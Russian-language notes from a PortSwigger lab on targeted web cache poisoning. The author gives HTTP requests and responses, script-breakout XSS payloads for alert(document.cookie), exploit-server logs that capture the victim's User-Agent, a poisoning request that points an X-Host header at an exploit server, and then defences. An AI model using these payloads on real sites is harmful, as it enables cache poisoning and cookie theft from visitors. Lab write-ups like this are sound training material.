






#### Использование ответов, которые раскрывают слишком много информации
**Заголовки помогают атаке:**

- `Age` и `Cache-Control` показывают время жизни кэша - злоумышленник точно знает, когда отправлять запрос, чтобы отравить кэш с первой попытки
    
- `Vary` раскрывает, какие заголовки входят в ключ кэша - это позволяет точно настроить атаку на конкретных пользователей (например, только на мобильные устройства)
    
- Эта информация экономит время и делает атаку точнее, без лишних запросов
------------

лаба https://portswigger.net/web-security/web-cache-poisoning/exploiting-design-flaws/lab-web-cache-poisoning-targeted-using-an-unknown-header
#### Целенаправленное заражение веб-кэша с использованием неизвестного заголовка
отравив кеш нужно вызвать у жертвы `alert(document.cookie)`
нужно правильно выбрать "группу" жертвы, че за группа - не ясно, разберемся на ходу


-----
вот ориг запрос к главной стр

```http
GET / HTTP/1.1
Host: 0a080098031a47d6800b9efa00d5001d.h1-web-security-academy.net
Cookie: session=V3gcSuSSVJiHjc1Cud6va8RJXkFOKo7G
Sec-Ch-Ua: "Chromium";v="145", "Not:A-Brand";v="99"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "macOS"
Accept-Language: ru-RU,ru;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/145.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0a080098031a47d6800b9efa00d5001d.h1-web-security-academy.net/
Accept-Encoding: gzip, deflate, br
Priority: u=0, i
Connection: keep-alive


```

запросы берутся из кеша!
```http

HTTP/1.1 200 OK
Content-Type: text/html; charset=utf-8
Vary: User-Agent
X-Frame-Options: SAMEORIGIN
Cache-Control: max-age=30
Age: 0
X-Cache: miss
Connection: close
Content-Length: 6059


HTTP/1.1 200 OK
Content-Type: text/html; charset=utf-8
Vary: User-Agent
X-Frame-Options: SAMEORIGIN
Cache-Control: max-age=30
Age: 15
X-Cache: hit
Connection: close
Content-Length: 6059


```

------

пробую добавить разные заголовки и посмотреть, что будет
X-Forwarded-Host: xss111
X-Host: xss222
Accept-Language: xss333
X-Forwarded-Scheme: xss444

`ответ 400 "error":"Duplicate header names are not allowed"`

-----

но я удалил  X-Forwarded-Scheme: xss444
и запрос сработал
```http
GET / HTTP/1.1
Host: 0a080098031a47d6800b9efa00d5001d.h1-web-security-academy.net
Cookie: session=V3gcSuSSVJiHjc1Cud6va8RJXkFOKo7G
X-Forwarded-Host: xss111
X-Host: xss222
X-Forwarded-Scheme: xss444
Sec-Ch-Ua: "Chromium";v="145", "Not:A-Brand";v="99"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "macOS"
Accept-Language: ru-RU,ru;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/145.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0a080098031a47d6800b9efa00d5001d.h1-web-security-academy.net/
Accept-Encoding: gzip, deflate, br
Priority: u=0, i
Connection: keep-alive


```

++ плюс ко всему - еще и отражается ответ в html
```html
HTTP/1.1 200 OK
Content-Type: text/html; charset=utf-8
Vary: User-Agent
X-Frame-Options: SAMEORIGIN
Cache-Control: max-age=30
Age: 6
X-Cache: hit
Connection: close
Content-Length: 6005

<!DOCTYPE html>
<html>
<!--LAB_HEAD_START-->
    <head>
        <link href=/resources/labheader/css/academyLabHeader.css rel=stylesheet>
        <link href=/resources/css/labsBlog.css rel=stylesheet>
        <title>Targeted web cache poisoning using an unknown header</title>
    </head>
<!--LAB_HEAD_END-->
    <body>
        <script type="text/javascript" src="//xss222👈/resources/js/tracking.js"></script>
        <script src="/resources/labheader/js/labHeader.js"></script>
```

------

попробую выйти за пределы тега 

alert(document.cookie)
```c
alert(document.cookie)

"></script><"<>;<script>alert(1)</script>
```

вот так отражается в html
```html
   <body>
        <script type="text/javascript" src="//"></script><"<>;
        
        <script>alert(1)</script>
        
        /resources/js/tracking.js"></script>
```


++ ко всему - получатся отравить сам кеш!
так как после того как я травлю кеш и делаю обычный запрос к главной странице в браузере - то получаю свой алерт!

алерт стработал! 




------

теперь делаю алерт с кукой
```c

"></script><"<>;<script>alert(document.cookie)</script>
```

открываю главную стр через инкогнито - и получаю алерт!
значит 10000000% я получил зараженный html из кеша!!




но лаба не решена...

я отравил кеш, и любой кто в течении 30 сек посещает главную стр - получает зараженный html , и срабатывает в браузере алерт...

что же еще лабе этой от меня нужно...? видимо - нужно на каких-то определенных юзеров атаку настроть...

сейчас в ответах я вижу Vary: User-Agent

> `Vary` раскрывает, какие заголовки входят в ключ кэша - это позволяет точно настроить атаку на конкретных пользователей (например, только на мобильные устройства)

---

``

есть еще комменты
запрос оставит коммент
коммент 4444
```http
POST /post/comment HTTP/1.1
Host: 0a080098031a47d6800b9efa00d5001d.h1-web-security-academy.net
Cookie: session=V3gcSuSSVJiHjc1Cud6va8RJXkFOKo7G
Content-Length: 101
Cache-Control: max-age=0
Sec-Ch-Ua: "Chromium";v="145", "Not:A-Brand";v="99"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "macOS"
Accept-Language: ru-RU,ru;q=0.9
Origin: https://0a080098031a47d6800b9efa00d5001d.h1-web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/145.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0a080098031a47d6800b9efa00d5001d.h1-web-security-academy.net/post?postId=4
Accept-Encoding: gzip, deflate, br
Priority: u=0, i
Connection: keep-alive

csrf=QtnvZjAYb9rcF9tOdaStWqDebG0onQZB&postId=4&comment=4444&name=hacker&email=hacker%40bk.ru&website=
```
но комменты вставляются в страницу динамически
```json
HTTP/1.1 200 OK
Content-Type: application/json; charset=utf-8
Vary: User-Agent
X-Frame-Options: SAMEORIGIN
Cache-Control: max-age=30
Age: 0
X-Cache: miss
Connection: close
Content-Length: 667

[{"avatar":"","website":"","date":"2026-03-01T19:48:16.349Z","body":"Amusing, enticing and well put together. But enough from my dating profile, good blog","author":"Nick O'Time"},{"avatar":"","website":"","date":"2026-03-08T21:01:59.437Z","body":"Well this is all well and good but do you know a website for chocolate cake recipes?","author":"Jack Support"},{"avatar":"","website":"","date":"2026-03-10T17:05:06.139Z","body":"I found myself asking a lot of questions after reading this blog, like how many stops have I missed me station by?","author":"Carrie Atune"},

{
"avatar":"",
"website":"",
"date":"2026-03-24T13:45:31.537787521Z",
"body":"4444",
"author":"hacker"}]
```

вот так подставляется в html
```html
<section class="comment"><p>hacker | 24-03-2026</p>
<p>4444</p>

<p></p></section>
```

пробую коммент-пейлоад
```js
</p><script>alert(777777777)</script><p>
```

в итоге 
пришел json
```json
},{"avatar":"","website":"","date":"2026-03-10T17:05:06.139Z","body":"I found myself asking a lot of questions after reading this blog, like how many stops have I missed me station by?","author":"Carrie Atune"},

{
"avatar":"",
"website":"",
"date":"2026-03-24T13:45:31.537787521Z",
"body":"4444",
"author":"hacker"},

{
"avatar":"",
"website":"",
"date":"2026-03-24T13:50:51.734603238Z",
"body":"<\/p><script>alert(777777777)<\/script><p>",
"author":"hacker"
}]
```

json приходит, но при этом идет экранирование сиволов слешами

и в самой стр отображается 
```html
<section class="comment"><p>hacker | 24-03-2026</p><p></p><p></p></section>
```

и в саму страницу уже вставляется полностью очищенный коммент - все нафиг удалено!

--------

кстати говоря, если каким то чудесным образом получиться сделать так, чтобы мой комменты делал звонок"" на мой эксплойт-сервер, то я могу увидеть куку жертвы, и подменить ее в предыдущем запросе так, чтобы кеш был отравлен только этому юзеру!

------

пробую  оставить коммент - как в решении лабы
```html


```

вот такой json мне пришел
```json
{
"avatar":"",
"website":"",
"date":"2026-03-24T14:00:56.929467603Z",

"body":
"

\r\n

\r\n",

"author":"hacker"}

видно, что слеши экранируются
```

и такое - ощущение - будто была попытка подгрузить картинки!!!




иду в логи сервера

и да, получить взать минимальную куку юзеров c агентом!!!!!
```http
10.0.3.71       2026-03-24 14:01:10 +0000 "GET /exploit HTTP/1.1" 200 "user-agent: Mozilla/5.0 (Victim) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/125.0.0.0 Safari/537.36"
10.0.3.71       2026-03-24 14:01:27 +0000 "GET /exploit HTTP/1.1" 200 "user-agent: Mozilla/5.0 (Victim) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/125.0.0.0 Safari/537.36"
10.0.3.71       2026-03-24 14:01:44 +0000 "GET /exploit HTTP/1.1" 200 "user-agent: Mozilla/5.0 (Victim) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/125.0.0.0 Safari/537.36"
10.0.3.71       2026-03-24 14:02:02 +0000 "GET /exploit HTTP/1.1" 200 "user-agent: Mozilla/5.0 (Victim) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/125.0.0.0 Safari/537.36"
10.0.3.71       2026-03-24 14:02:20 +0000 "GET /exploit HTTP/1.1" 200 "user-agent: Mozilla/5.0 (Victim) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/125.0.0.0 Safari/537.36"
10.0.3.71       2026-03-24 14:02:38 +0000 "GET /exploit HTTP/1.1" 200 "user-agent: Mozilla/5.0 (Victim) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/125.0.0.0 Safari/537.36"
10.0.3.71       2026-03-24 14:02:55 +0000 "GET /exploit HTTP/1.1" 200 "user-agent: Mozilla/5.0 (Victim) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/125.0.0.0 Safari/537.36"
10.0.3.71       2026-03-24 14:03:12 +0000 "GET /exploit HTTP/1.1" 200 "user-agent: Mozilla/5.0 (Victim) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/125.0.0.0 Safari/537.36"
```

------------

теперь пробую взять свой запрос - которым я травил до этого кеш
и подставить в него чужой юзер-агент

```http
GET / HTTP/1.1
Host: 0a080098031a47d6800b9efa00d5001d.h1-web-security-academy.net
Cookie: session=V3gcSuSSVJiHjc1Cud6va8RJXkFOKo7G
X-Forwarded-Host: xss111
X-Host: "></script><"<>;<script>alert(document.cookie)</script>
X-Forwarded-Scheme: xss444
Sec-Ch-Ua: "Chromium";v="145", "Not:A-Brand";v="99"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "macOS"
Accept-Language: ru-RU,ru;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Victim) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/125.0.0.0 Safari/537.36"
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0a080098031a47d6800b9efa00d5001d.h1-web-security-academy.net/
Accept-Encoding: gzip, deflate, br
Priority: u=0, i
Connection: keep-alive


```


в ответе отражается теперь 
```html
HTTP/1.1 200 OK
Content-Type: text/html; charset=utf-8
Vary: User-Agent
X-Frame-Options: SAMEORIGIN
Cache-Control: max-age=30
Age: 2
X-Cache: hit
Connection: close
Content-Length: 6054

<!DOCTYPE html>
<html>
<!--LAB_HEAD_START-->
    <head>
        <link href=/resources/labheader/css/academyLabHeader.css rel=stylesheet>
        <link href=/resources/css/labsBlog.css rel=stylesheet>
        <title>Targeted web cache poisoning using an unknown header</title>
    </head>
<!--LAB_HEAD_END-->
    <body>
        <script type="text/javascript" src="//"></script><"<>;<script>alert(document.cookie)</script>/resources/js/tracking.js"></script>
```

------
но лаба не решается

-----
я даже удалил заголовок `X-Host: "></script><"<>;<script>alert(document.cookie)</script>`
и в ответе сайта все равно приходит алерт `;<script>alert(document.cookie)</script>`




но сейчас алерт не срабатывает, хотя до того как я поменял юзер-агента - алерт срабатывал

-------
я поставил обратно юезер-агента своего - в репитере отправил запрос - потом быстро в браузере перешел на главную страницу и получил алерт!! это значаит - что жертва - чей юзер - агент я украл - перейдя на главную страницу - тоже сработает алерт с кукакми"




е,:,бая лаба!! че еще нужно!!!????

-------
я посмотрел решение, они хотят, чтобы был запрос на мой сервер - и уже мой сервер открывал алерт в браузере жертвы.... ну ля, цикр!!!! какой-то

----

делаю так - ЗАПРОС
```http
GET / HTTP/1.1
Host: 0a080098031a47d6800b9efa00d5001d.h1-web-security-academy.net
Cookie: session=V3gcSuSSVJiHjc1Cud6va8RJXkFOKo7G
X-Forwarded-Host: xss111
X-Host: exploit-0ae600da030b471680679d7201d90021.exploit-server.net
X-Forwarded-Scheme: xss444
Sec-Ch-Ua: "Chromium";v="145", "Not:A-Brand";v="99"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "macOS"
Accept-Language: ru-RU,ru;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Victim) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/125.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0a080098031a47d6800b9efa00d5001d.h1-web-security-academy.net/
Accept-Encoding: gzip, deflate, br
Priority: u=0, i
Connection: keep-alive


```

ответ 200
```html
   HTTP/1.1 200 OK
Content-Type: text/html; charset=utf-8
Vary: User-Agent
X-Frame-Options: SAMEORIGIN
Cache-Control: max-age=30
Age: 7
X-Cache: hit
Connection: close
Content-Length: 6058

<!DOCTYPE html>
<html>
<!--LAB_HEAD_START-->
    <head>
        <link href=/resources/labheader/css/academyLabHeader.css rel=stylesheet>
        <link href=/resources/css/labsBlog.css rel=stylesheet>
        <title>Targeted web cache poisoning using an unknown header</title>
    </head>
<!--LAB_HEAD_END-->
    <body>
        <script type="text/javascript" src="//exploit-0ae600da030b471680679d7201d90021.exploit-server.net/resources/js/tracking.js"></script>
```

и вот так настроен эксплойт сервер
там просто js код алерта `alert(document.cookie)`




отправил этот запрос - лаба решена!!!!!!!
короче - перемудрили эту лабу трижды!!!!
так как в три раза легкче можно решить эту задачу с куками в алерте

------

### суть уязвимости

найден неизвестный заголовок `X-Host`, который подставляется в src скрипта tracking.js
   
заголовок `Vary: User-Agent` делит кэш по User-Agent
   
через комментарий с `` получен User-Agent жертвы
 
### защита

не использовать пользовательские заголовки в формировании путей -` X-Host`, `X-Forwarded-Host` и подобные
   
включить все влияющие заголовки в ключ кэша - через `Vary`, но осторожно
   
не кэшировать ответы с пользовательским контентом, если он зависит от входных данных
   
валидировать и ограничивать значения заголовков - разрешать только доверенные домены
   
использовать `Content Security Policy` - ограничить источники скриптов

-----------